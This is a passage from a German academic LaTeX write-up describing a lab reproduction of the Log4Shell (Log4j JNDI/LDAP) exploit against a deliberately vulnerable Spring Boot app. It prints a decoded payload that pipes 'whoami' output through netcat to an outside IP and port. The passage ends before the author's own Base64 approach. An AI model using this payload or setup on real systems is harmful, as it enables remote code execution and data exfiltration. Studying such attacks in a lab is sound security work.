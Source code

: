 
\subsubsection{Versuchsaufbau und Exploit}
Da die Log4j Bibliothek bereits gepatcht ist und auch sämtliche Java Versionen bereits gepatcht wurden,
wurde im Versuchsaufbau ein Git Repository verwendet.\footcite{log4jvulnerableapp} Es beinhaltet eine Java Spring Boot Web Applikation, die mit
einer Java Version läuft, die nach wie vor anfällig für Log4Shell Angriffe ist.\\
Desweiteren benötigt man einen \gls{ldap}-Server, den man selbst kontrolliert, um einen \gls{jndi}-Lookup zu provozieren. Hierfür verwendet wurde ein weiteres
Git Repository in dem ein bereits voll konfigurierter Server zur Verfügung gestellt wird. Das Repository wurde jedoch aus GitHub entfernt. Das Kompilat des schädlichen
\gls{ldap}-Servers kann nichtsdestotrotz in einem Archiv gefunden werden.\footcite{maliciousLdap}\\
Der letzte Schritt zum erfolgreichen Ausführen des Exploits ist es, eine \gls{http}-Anfrage an das Zielsystem zu senden. In der Anfrage muss nun nur noch die \gls{ip}-Addrese mit Port angegeben werden
unter denen der \gls{ldap}-Server erreichbar ist.

\bigskip

Bei der Durchführung des Exploits wurde die Base64 Funktionalität des bereits laufenden \gls{ldap}-Servers verwendet. Daher liegt das auszuführende Skript als base64-encoded String vor. Die \gls{bash} Befehle,
die hier der Reihe nach ausgeführt werden sind übersetzt: \textit{bin/bash | whoami | nc 192.168.186.216 9999}.\\
Die tatsächliche Funktionalität des Skripts konnte jedoch hierbei nicht Revers Engineert werden. Ein eigener Ansatz einer solchen Base64 Funktionalität wäre der Folgende:\\



